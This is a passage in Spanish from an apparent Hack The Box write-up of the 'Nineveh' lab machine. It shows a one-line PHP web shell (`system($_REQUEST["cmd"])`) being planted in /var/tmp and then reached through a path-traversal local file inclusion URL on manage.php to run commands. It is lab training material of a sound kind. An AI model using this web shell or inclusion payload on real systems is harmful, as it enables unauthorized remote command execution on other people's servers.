 Posteriormente, en **Type** seleccionamos **TEXT**, en **Field** insertamos nuestro código php `<?php system($_REQUEST["cmd"]) ?>` y le damos en **Create**

![](/assets/images/htb-nineveh/nineveh-web16.png)

Ya tenemos nuestro archivo php que si le damos en **Return** nos mostrará información sobre nuestro archivo y lo que nos interesa es la ruta `/var/tmp/k4miyo.php` para que podamos apuntar desde el otro sitio web, que es lo que haremos:

- `http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/k4miyo.php`

![](/assets/images/htb-nineveh/nineveh-web17.png)

Ahora para poder ejecutar comandos, haremos uso de la variable `cmd` y hay que tener en cuentra que para agregarla a la dirección URL lo haremos con el símbolo `&` debido a el `?` ya está siendo usado:
